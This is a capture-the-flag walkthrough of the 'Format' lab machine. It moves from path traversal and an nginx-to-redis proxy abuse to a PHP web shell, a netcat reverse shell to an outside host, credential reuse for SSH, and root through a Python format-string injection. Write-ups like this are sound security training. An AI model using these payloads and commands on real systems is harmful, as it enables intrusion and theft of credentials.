

# format

| Hostname | Difficulty |
| -------- | ---------- |
| format   | Medium     | 

Machine IP: 10.10.11.213 :

```bash
TARGET=10.10.11.213       # format IP address
```

## Initial Reconnaissance

### Ports and services

```shell
nmap -p- $TARGET --open
```

Result:

```text
Nmap scan report for 10.10.11.213
Host is up (0.021s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

We have 3 ports open, let's go deeper :

```shell
nmap -p 80,3000 $TARGET -sC -sV -A
```

Result:

```text
Nmap scan report for 10.10.11.213
Host is up (0.020s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.18.0
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0
3000/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://microblog.htb:3000/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   20.48 ms 10.10.14.1
2   20.66 ms 10.10.11.213
```

### identify web service : port 80

let's identify this service :

```shell
whatweb $TARGET
```

```text
http://10.10.11.213 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.10.11.213], Meta-Refresh-Redirect[http://app.microblog.htb], nginx[1.18.0]
```

### identify web service : port 3000

let's identify this service :

```shell
whatweb $TARGET:3000
```

```text
http://10.10.11.213:3000 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.10.11.213], RedirectLocation[http://microblog.htb:3000/], Title[301 Moved Permanently], nginx[1.18.0]
```

### discover web services

We can define these 2 hosts in order to access them :

```shell
echo "$TARGET        microblog.htb app.microblog.htb" >> /etc/hosts
```

[http://app.microblog.htb/](http://app.microblog.htb/)


There is a login page:


and a register page:


Now browse to : [http://microblog.htb:3000/](http://microblog.htb:3000/)


This is a gitea instance (source code hosting service).

Let's explore repositories:


We can list users:



There is one user: **cooper**

This user have a single project: **microblog**

[http://microblog.htb:3000/cooper/microblog](http://microblog.htb:3000/cooper/microblog)


From what we already discovered on the previous web app on port 80, its source code seems to be hosted here :

[http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/app](http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/app)


We can continue to explore this repo, one level up :


This is what could be the **app** subdomain, with another one **sunny**. Let's add its definition and access it :

```python
echo "$TARGET        microblog.htb app.microblog.htb sunny.microblog.htb" >> /etc/hosts
```

[http://sunny.microblog.htb/](http://sunny.microblog.htb/)


### Create a blog

Let's create a blog ! For this, we first need to register.

[http://app.microblog.htb/register/](http://app.microblog.htb/register/)


We come to a dashboard :


We can create a new blog (let's call it **john**) :


The new blog is online:


We have to add that new host again :

```python
echo "$TARGET microblog.htb app.microblog.htb sunny.microblog.htb john.microblog.htb" >> /etc/hosts
```

We can now access and edit it:


We can add a title and some text :


### Analyse the requests

Using Burpsuite, we can analyse the POST requests for adding text :


We have 2 parameters : **id** and **txt** here

We can go back to gitea to see the code behind this action :

[http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/sunny/edit/index.php](http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/sunny/edit/index.php)

This piece if code code is interesting, related to adding text :

```php
//add text
if (isset($_POST['txt']) && isset($_POST['id'])) {
    chdir(getcwd() . "/../content");
    $txt_nl = nl2br($_POST['txt']);
    $html = "<div class = \"blog-text\">{$txt_nl}</div>";
    $post_file = fopen("{$_POST['id']}", "w");
    fwrite($post_file, $html);
    fclose($post_file);
    $order_file = fopen("order.txt", "a");
    fwrite($order_file, $_POST['id'] . "\n");  
    fclose($order_file);
    header("Location: /edit?message=Section added!&status=success");
}
```

We understand the **id** parameter is a file name, the application will write into. This filename is also written into `order.txt`.

Then, when displaying the page after the POST :

```php
function fetchPage() {
    chdir(getcwd() . "/../content");
    $order = file("order.txt", FILE_IGNORE_NEW_LINES);
    $html_content = "";
    foreach($order as $line) {
        $temp = $html_content;
        $html_content = $temp . "<div class = \"{$line} blog-indiv-content\">" . file_get_contents($line) . "</div>";
    }
    return $html_content;
}
```

all files that their name is referenced is loaded and included in the page

```php
const html = <?php echo json_encode(fetchPage()); ?>.replace(/(\r\n|\n|\r)/gm, "");
        $(".push-for-h1").after(html);
```

We can use burpsuite repeater in order to replay a request with a text file to read :

`id=../../../../../../../../etc/passwd&txt=test`


When reloading the page :


We are able to read a remote file (`/etc/passwd`) :

```text
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin_apt:x:100:65534::/nonexistent:/usr/sbin/nologinsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinsystemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologinsystemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologincooper:x:1000:1000::/home/cooper:/bin/bashredis:x:103:33::/var/lib/redis:/usr/sbin/nologingit:x:104:111:Git Version Control,,,:/home/git:/bin/bashmessagebus:x:105:112::/nonexistent:/usr/sbin/nologinsshd:x:106:65534::/run/sshd:/usr/sbin/nologin_laurel:x:997:997::/var/log/laurel:/bin/false
```

We can identify **cooper** user, with **redis**, and **git** users:

```python
cooper:x:1000:1000::/home/cooper:/bin/bash
redis:x:103:33::/var/lib/redis:/usr/sbin/nologin
git:x:104:111:Git Version Control,,,:/home/git:/bin/bash
```

This **redis** user is linked to data storage, and we can find information in the gitea repository :

[http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/sunny/index.php](http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/sunny/index.php)

```php
function checkAuth() {
    return(isset($_SESSION['username']));
}

function checkOwner() {
    if(checkAuth()) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $subdomain = array_shift((explode('.', $_SERVER['HTTP_HOST'])));
        $userSites = $redis->LRANGE($_SESSION['username'] . ":sites", 0, -1);
        if(in_array($subdomain, $userSites)) {
            return $_SESSION['username'];
        }
    }
    return "";
}
```

There are also references to redis in the edit page :

[http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/sunny/edit/index.php](http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/sunny/edit/index.php)

```php
function checkUserOwnsBlog() {
    $redis = new Redis();
    $redis->connect('/var/run/redis/redis.sock');
    $subdomain = array_shift((explode('.', $_SERVER['HTTP_HOST'])));
    $userSites = $redis->LRANGE($_SESSION['username'] . ":sites", 0, -1);
    if(!in_array($subdomain, $userSites)) {
        header("Location: /");
        exit;
    }
}

function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}

//always check user owns blog before proceeding with any actions
checkUserOwnsBlog();

//provision pro environment for new pro users
provisionProUser();
```

This “Pro” option is interesting. in the same page :

```php
//add image
if (isset($_FILES['image']) && isset($_POST['id'])) {
    if(isPro() === "false") {
        print_r("Pro subscription required to upload images");
        header("Location: /edit?message=Pro subscription required&status=fail");
        exit();
    }
```

The pro option allow to upload images for example :

```php
function isPro() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $pro = $redis->HGET($_SESSION['username'], "pro");
        return strval($pro);
    }
    return "false";
}
```

We need a way to access redis storage.
### redis storage

In order to find a way to access redis, let's explore the configuration of the HTTP server, nginX. For this, we can read the config file of the default HTTP application :

`id=../../../../../../../../etc/nginx/sites-enabled/default&txt=test`

```nginx
### You should look at the following URL's in order to grasp a solid understanding
# of Nginx configuration files in order to fully unleash the power of Nginx.
# https://www.nginx.com/resources/wiki/start/
# https://www.nginx.com/resources/wiki/start/topics/tutorials/config_pitfalls/
# https://wiki.debian.org/Nginx/DirectoryStructure
## In most cases, administrators will remove this file from sites-enabled/ and
# leave it as reference inside of sites-available where it will continue to be
# updated by the nginx packaging team.
## This file will automatically load configuration files provided by other
# applications, such as Drupal or Wordpress. These applications will be made
# available underneath a path with that package name, such as /drupal8.
## Please see /usr/share/doc/nginx-doc/examples/ for more detailed examples.
### Default server configuration#server 
{
 listen 80 default_server;
 listen [::]:80 default_server;
 # SSL configuration 
 # # listen 443 ssl default_server;
 # listen [::]:443 ssl default_server;
 # # Note: You should disable gzip for SSL traffic. 
 # See: https://bugs.debian.org/773332 
 # # Read up on ssl_ciphers to ensure a secure configuration. 
 # See: https://bugs.debian.org/765782 
 # # Self signed certs generated by the ssl-cert package 
 # Don't use them in a production server! 
 # # include snippets/snakeoil.conf; 
 root /var/www/html; 
 # Add index.php to the list if you are using PHP 
 index index.html index.htm index.nginx-debian.html; 
 server_name _; 
 location / { 
	# First attempt to serve request as file, then 
  # as directory, then fall back to displaying a 404. 
  try_files $uri $uri/ =404;
 }
 # pass PHP scripts to FastCGI server 
 # #
 location ~ \.php$ {
  # include snippets/fastcgi-php.conf; 
  # # # With php-fpm (or other unix sockets): 
  # fastcgi_pass unix:/run/php/php7.4-fpm.sock; 
  # # With php-cgi (or other tcp sockets): 
  # fastcgi_pass 127.0.0.1:9000; 
  #
 }
 # deny access to .htaccess files, if Apache's document root 
 # concurs with nginx's one 
 # #
 location ~ /\.ht {
  # deny all; 
  #
 }
}
server {
 listen 80;
 listen [::]:80;
 root /var/www/microblog/app;
 index index.html index.htm index-nginx-debian.html;
 server_name microblog.htb; location / {
  return 404;
 }
 location = /static/css/health/ {
  resolver 127.0.0.1;
  proxy_pass http://css.microbucket.htb/health.txt;
 }
 location = /static/js/health/ {
  resolver 127.0.0.1; 
  proxy_pass http://js.microbucket.htb/health.txt;
 }
 location ~ /static/(.*)/(.*) {
  resolver 127.0.0.1;
  proxy_pass http://$1.microbucket.htb/$2;
 }
}
```

We can identify a suspect part :

```nginx
 location ~ /static/(.*)/(.*) {
  resolver 127.0.0.1;
  proxy_pass http://$1.microbucket.htb/$2;
 }
```

The reference documentation about **proxy_pass** : [https://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_pass](https://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_pass)

This directive seems to be aimed internal use only. It would redirect a call to `http://microbucket.htb/static/john/item` to `http://john.microbucket.htb/item` 

But we can find some exploits on this : 
* [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx)
* [https://dev.to/vearutop/using-nginx-as-a-proxy-to-multiple-unix-sockets-3c7a](https://dev.to/vearutop/using-nginx-as-a-proxy-to-multiple-unix-sockets-3c7a)

As specified, we could access :

```text
http://unix:/any_file
```

from something like :

```text
http://microbucket.htb/static/unix:/any_file/
```

Note: the last `/` at the end is required for the regex in `location ~ /static/(.*)/(.*)` to match

In order to execute requests on redis, we also need to change the HTTP verb, which would give something like :

* `HGET /static/unix:/var/run/redis/redis.sock:john pro / HTTP/1.1`
* `HSET /static/unix:/var/run/redis/redis.sock:john pro true / HTTP/1.1`

in order to get or set the `pro` flag in redis.

Another point of interest, is that, according to the regex, there must not be any `/` in the redis request, or nginX wil split it. To avoid this, we need to URL encode the problematic characters.

Using burpsuite, we can reuse a request and modify it to set the `pro` flag :

```python
HSET /static/unix:%2fvar%2frun%2fredis%2fredis.sock:john%20pro%20true%20/fakeuri HTTP/1.1
Host: microblog.htb
```


In a simpler way, we can execute in directly in the console :

```shell
curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:john%20pro%20true%20/fakeuri"
```

Since we use nginX to access redis, this is not linked to the application, and we do not need any session token.

### upload

With this new option, we are able to send an image :


The application code to add an image :

```php
//add image
if (isset($_FILES['image']) && isset($_POST['id'])) {
    if(isPro() === "false") {
        print_r("Pro subscription required to upload images");
        header("Location: /edit?message=Pro subscription required&status=fail");
        exit();
    }
    $image = new Bulletproof\Image($_FILES);
    $image->setLocation(getcwd() . "/../uploads");
    $image->setSize(100, 3000000);
    $image->setMime(array('png'));

    if($image["image"]) {
        $upload = $image->upload();

        if($upload) {
            $upload_path = "/uploads/" . $upload->getName() . ".png";
            $html = "<div class = \"blog-image\"></div>";
            chdir(getcwd() . "/../content");
            $post_file = fopen("{$_POST['id']}", "w");
            fwrite($post_file, $html);
            fclose($post_file);
            $order_file = fopen("order.txt", "a");
            fwrite($order_file, $_POST['id'] . "\n");  
            fclose($order_file);
            header("Location: /edit?message=Image uploaded successfully&status=success");
        }
        else {
            header("Location: /edit?message=Image upload failed&status=fail");
        }
    }
}
```

There is no protection against the file type we could send. We can notice the folder `uploads`, that is dynamically created by the application when we activated the "pro" option :

```php
function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}
```

Being a pro user, a folder named “uploads” is created with read/write/execute access rights (chmod 700).

## Initial access

### Exploitation

Since we already have the ability to write a file (when adding text), we can reuse this to write a PHP file on target host, that will give a remote control.

The target full directory name would be : `/var/www/microblog/john`

And the target shell file: `/var/www/microblog/john/shell.php`

We can use [https://www.revshells.com/](https://www.revshells.com/) to generate a payload. Let's generate a really simple command execution to test: "PHP cmd 2"

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

We need to URL encode this payload in order to send it as a parameter :

```text
POST /edit/index.php HTTP/1.1
Host: john.microblog.htb
...

id=../../../../../../../var/www/microblog/john/uploads/shell.php&txt=<%3fphp+if(isset($_REQUEST['cmd'])){+echo+"<pre>"%3b+$cmd+%3d+($_REQUEST['cmd'])%3b+system($cmd)%3b+echo+"</pre>"%3b+die%3b+}%3f>
```

Then, can call the shell and execute a simple command :

[http://john.microblog.htb/uploads/shell.php?cmd=whoami](http://john.microblog.htb/uploads/shell.php?cmd=whoami)

response :

```text
www-data
```

Since we can execute come commands, we now are able to get a reverse shell. The command to be executed :

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 9001>/tmp/f
```

The URL encoded payload :

```text
http://john.microblog.htb/uploads/shell.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.14.23+9001%3E/tmp/f
```

With the listener:

```shell
rlwrap -cAr nc -lvnp 9001
```

And we get a shell !!!

## Post-Exploitation

### Host Reconnaissance

The user “cooper” already have a blog, he must have an account saved in the redis database. So let’s explore it !

connect to the redis database :

```shell
which redis-cli
/usr/bin/redis-cli

redis-cli -s /var/run/redis/redis.sock
```

Start by enumerate the keys :

```text
keys *

cooper.dooper
john:sites
cooper.dooper:sites
PHPREDIS_SESSION:fhg5tifdq3b81uspe3hhj3bi8e
john
```

Get cooper keys :

```text
hgetall cooper.dooper

username
cooper.dooper
password
zooperdoopercooper
first-name
Cooper
last-name
Dooper
pro
false
```

So we have his blog password: zooperdoopercooper

Credentials :

| Username | email | Password           | Hash | Usage |
| -------- | ----- | ------------------ | ---- | ----- |
| ooper    |       | zooperdoopercooper |      | blog  | 

Using this password, we can reuse it to have a SSH access :

```shell
ssh cooper@microblog.htb
```

and we have a SSH access:

```text
id
uid=1000(cooper) gid=1000(cooper) groups=1000(cooper)
```

### Privilege Escalation

Let's enumerate the sudo from this user :

```shell
~$ sudo -l
```

```text
Matching Defaults entries for cooper on format:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
(root) /usr/bin/license
```

`/usr/bin/license` is a python script :

```python
#!/usr/bin/python3

import base64
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.fernet import Fernet
import random
import string
from datetime import date
import redis
import argparse
import os
import sys

class License():
    def __init__(self):
        chars = string.ascii_letters + string.digits + string.punctuation
        self.license = ''.join(random.choice(chars) for i in range(40))
        self.created = date.today()

if os.geteuid() != 0:
    print("")
    print("Microblog license key manager can only be run as root")
    print("")
    sys.exit()

parser = argparse.ArgumentParser(description='Microblog license key manager')
group = parser.add_mutually_exclusive_group(required=True)
group.add_argument('-p', '--provision', help='Provision license key for specified user', metavar='username')
group.add_argument('-d', '--deprovision', help='Deprovision license key for specified user', metavar='username')
group.add_argument('-c', '--check', help='Check if specified license key is valid', metavar='license_key')
args = parser.parse_args()

r = redis.Redis(unix_socket_path='/var/run/redis/redis.sock')

secret = [line.strip() for line in open("/root/license/secret")][0]
secret_encoded = secret.encode()
salt = b'microblogsalt123'
kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=salt,iterations=100000,backend=default_backend())
encryption_key = base64.urlsafe_b64encode(kdf.derive(secret_encoded))

f = Fernet(encryption_key)
l = License()

#provision
if(args.provision):
    user_profile = r.hgetall(args.provision)
    if not user_profile:
        print("")
        print("User does not exist. Please provide valid username.")
        print("")
        sys.exit()
    existing_keys = open("/root/license/keys", "r")
    all_keys = existing_keys.readlines()
    for user_key in all_keys:
        if(user_key.split(":")[0] == args.provision):
            print("")
            print("License key has already been provisioned for this user")
            print("")
            sys.exit()
    prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
    print("")
    print("Plaintext license key:")
    print("------------------------------------------------------")
    print(license_key)
    print("")
    license_key_encoded = license_key.encode()
    license_key_encrypted = f.encrypt(license_key_encoded)
    print("Encrypted license key (distribute to customer):")
    print("------------------------------------------------------")
    print(license_key_encrypted.decode())
    print("")
    with open("/root/license/keys", "a") as license_keys_file:
        license_keys_file.write(args.provision + ":" + license_key_encrypted.decode() + "\n")

#deprovision
if(args.deprovision):
    print("")
    print("License key deprovisioning coming soon")
    print("")
    sys.exit()

#check
if(args.check):
    print("")
    try:
        license_key_decrypted = f.decrypt(args.check.encode())
        print("License key valid! Decrypted value:")
        print("------------------------------------------------------")
        print(license_key_decrypted.decode())
    except:
        print("License key invalid")
    print("")
```

This is to be used as :

```shell
licence --provision username
```

From this code, we can understand that :

- the username must exist in the redis base
- the username must have a first name and last name
- the licence is composed :  “(”microblog”+ username + "{license.license}" + firstlast).format(license=l)”
- “license.license” is a 40 characters wide random string

The result is appended to file "/root/license/keys"

When ciphering, there is a secret used "/root/license/secret"

The python “format()” function can be exploited :

[https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-format-string](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-format-string)

The code :

```python
    prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```

the key is composed of :

- "microblog"
- username
- license.license : 40 characters wide random string
- first-name
- last-name

first or last name could have a payload to exploit the format() function. 

So we can inject the required fields in redis, the execute the licence executable

we can set last name to:

```python
{license.__init__.__globals__[secret]}
```

```shell
redis-cli -s /var/run/redis/redis.sock
```

```text
HSET john username john
HSET john first-name john
HSET john last-name {license.__**init__**.__**globals__**[secret]}
```

Now, we can run `/usr/bin/license` to provision a license key for the new user which we created.

```shell
sudo /usr/bin/license -p "john"
```


The licence key :

```text
microblogjohn3j{vM{+Dh5b=sTKEOKH1l^O|>~Jp)ri}OnEM#>/IjohnunCR4ckaBL3Pa$$w0rd
```

at the end, we have the first name : john

and the secret used to cipher : `unCR4ckaBL3Pa$$w0rd`

that looks like a password ...

A simple "su" allow to get a root shell :

```shell
cooper@format:~$ su -
Password:
root@format:~# id
uid=0(root) gid=0(root) groups=0(root)
root@format:~#
```


